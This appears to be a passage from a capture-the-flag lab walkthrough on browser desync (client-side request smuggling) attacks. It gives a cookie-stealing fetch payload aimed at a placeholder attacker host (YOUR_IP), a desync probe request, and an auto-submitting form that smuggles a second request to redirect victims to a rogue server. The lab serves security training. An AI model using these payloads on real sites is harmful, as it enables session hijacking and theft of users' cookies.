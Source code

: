 We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request.  
Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.  
To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.  
  

To do so, we can set up a rogue server by serving a route with a malicious payload like `fetch('http://YOUR_IP/' + document.cookie);`  

Be ready for the challenge in the next task; you will have to solve it using this exploit!

# Challenge Help
---

In this task, we will look for a possible way to solve the challenge of the previous task.  

Firstly, you have to add in your /etc/hosts file the following entry:  

`MACHINE_IP challenge.thm`

It can be observed that utilizing the given payload and refreshing the page results in a 404 error page. This indicates that the web server is vulnerable to request smuggling browser desync.

```python
fetch('http://challenge.thm/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})
```

Next, we can observe that the contact page does not correctly sanitize text input, potentially allowing us to send an arbitrary payload.

![Browser Desync Attack Vulnerable Functionality](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/dff30d90a55e2ae46ef41aea01194e96.png)

Visting  [http://challenge.thm/securecontact](http://challenge.thm/securecontact) you can notice that the input from the message field is reflected but is not interpreted:  
  

![Browser Desync Attack Secure Contact](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/ba1ae0a040c95ada5fcd3e3bbc44e28c.png)

  

The victim will instead visit another page [http://challenge.thm/vulnerablecontact](http://challenge.thm/vulnerablecontact) where the input will be interpreted.  

![Browser Desync Attack Contact Vulnerable](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/a2834f4fe56b297a57576c0f6d4992b6.png)  

  

Now, we just need to build our payload to redirect the victim user to fetch the second payload from our server:

```python
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP:1337 HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
